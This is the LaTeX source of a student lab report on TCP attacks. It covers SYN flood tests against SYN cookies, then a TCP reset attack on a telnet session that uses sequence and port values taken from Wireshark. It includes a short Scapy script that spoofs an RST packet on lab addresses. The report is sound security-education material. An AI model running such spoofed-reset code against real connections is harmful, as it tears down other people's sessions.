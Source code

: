 \documentclass[12pt]{article}
\begin{document}
We can see that we've enabled SYN cookies. In this one we can see the anti flood measures working as the user was able to successfully establish a connection this time.
Lets repeat again with the c program and see what happens.

\begin{figure}[!ht]
  \includegraphics*[scale=.28]{Task1.3cflood.png}
\end{figure}

Once again we can see the SYN cookies have been enabled and that the anti flood measured worked. The user was able to establish a connection.

\section*{Task 2}

For this one we need to obtain some information. In order to obtain this information we will need to use wireshark, we are looking for the ACK, SEQ, IP, and 
port. We will connect using telnet and and view the most recent TCP packet. Opening wireshark we can see the following.

\begin{figure}[!ht]
  \includegraphics*[scale=.35]{task2WiresharkPacket.png}
\end{figure}

In wireshark we can see the information we need. We can see the source ip address, the source port is 48336, and sequence is 2560596923. Using this information we will make the following program to launch the attack.  The code below 
will be what we use to launch the attack, it can be viewed in task2.py

\begin{lstlisting}
  #!/usr/bin/env python3
  from scapy.all import *
  
  ip = IP(src="10.9.0.6", dst="10.9.0.5")
  tcp = TCP(sport=48336, dport=23, flags="R", seq=2560596923)
  pkt = ip/tcp
  ls(pkt)
  send(pkt, verbose=0)
\end{lstlisting}
\end{document}
